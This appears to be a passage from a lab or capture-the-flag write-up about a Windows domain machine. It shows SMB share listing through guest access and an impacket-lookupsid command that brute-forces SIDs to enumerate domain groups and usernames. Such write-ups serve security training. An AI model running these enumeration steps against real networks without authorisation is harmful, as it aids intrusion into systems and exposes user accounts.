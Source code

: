 ```output
SMB         10.10.125.29    445    INVENTORY        [*] Windows Server 2022 Build 20348 x64 (name:INVENTORY) (domain:sweep.vl) (signing:True) (SMBv1:False) 
SMB         10.10.125.29    445    INVENTORY        [+] sweep.vl\xyz: (Guest)
SMB         10.10.125.29    445    INVENTORY        [*] Enumerated shares
SMB         10.10.125.29    445    INVENTORY        Share           Permissions     Remark
SMB         10.10.125.29    445    INVENTORY        -----           -----------     ------
SMB         10.10.125.29    445    INVENTORY        ADMIN$                          Remote Admin
SMB         10.10.125.29    445    INVENTORY        C$                              Default share
SMB         10.10.125.29    445    INVENTORY        DefaultPackageShare$ READ            Lansweeper PackageShare
SMB         10.10.125.29    445    INVENTORY        IPC$            READ            Remote IPC
SMB         10.10.125.29    445    INVENTORY        Lansweeper$                     Lansweeper Actions
SMB         10.10.125.29    445    INVENTORY        NETLOGON                        Logon server share 
SMB         10.10.125.29    445    INVENTORY        SYSVOL                          Logon server share

```

I used lookupsid to enumerate valid usernames from the domain:

```bash
impacket-lookupsid sweeper.vl/xyz:''@sweeper.vl -target 10.10.125.29 -no-pass 
```

```output
*] Brute forcing SIDs at sweeper.vl
[*] StringBinding ncacn_np:sweeper.vl[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4292653625-3348997472-4156797480
498: SWEEP\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: SWEEP\Administrator (SidTypeUser)
501: SWEEP\Guest (SidTypeUser)
502: SWEEP\krbtgt (SidTypeUser)
512: SWEEP\Domain Admins (SidTypeGroup)
513: SWEEP\Domain Users (SidTypeGroup)
514: SWEEP\Domain Guests (SidTypeGroup)
515: SWEEP\Domain Computers (SidTypeGroup)
516: SWEEP\Domain Controllers (SidTypeGroup)
517: SWEEP\Cert Publishers (SidTypeAlias)
518: SWEEP\Schema Admins (SidTypeGroup)
519: SWEEP\Enterprise Admins (SidTypeGroup)
520: SWEEP\Group Policy Creator Owners (SidTypeGroup)
521: SWEEP\Read-only Domain Controllers (SidTypeGroup)
522: SWEEP\Cloneable Domain Controllers (SidTypeGroup)
525: SWEEP\Protected Users (SidTypeGroup)
526: SWEEP\Key Admins (SidTypeGroup)
527: SWEEP\Enterprise Key Admins (SidTypeGroup)
553: SWEEP\RAS and IAS Servers (SidTypeAlias)
571: SWEEP\Allowed RODC Password Replication Group (SidTypeAlias)
572: SWEEP\Denied RODC Password Replication Group (SidTypeAlias)
1000: SWEEP\INVENTORY$ (SidTypeUser)
1101: SWEEP\DnsAdmins (SidTypeAlias)
1102: SWEEP\DnsUpdateProxy (SidTypeGroup)
1103: SWEEP\Lansweeper Admins (SidTypeGroup)
1113: SWEEP\jgre808 (SidTypeUser)
1114: SWEEP\bcla614 (SidTypeUser)
1115: SWEEP\hmar648 (SidTypeUser)
1116: SWEEP\jgar931 (SidTypeUser)
1117: SWEEP\fcla801 (SidTypeUser)
1118: SWEEP\jwil197 (SidTypeUser)
1119: SWEEP\grob171 (SidTypeUser)
1120: SWEEP\fdav736 (SidTypeUser)
1121: SWEEP\jsmi791 (SidTypeUser)
1122: SWEEP\hjoh690 (SidTypeUser)
```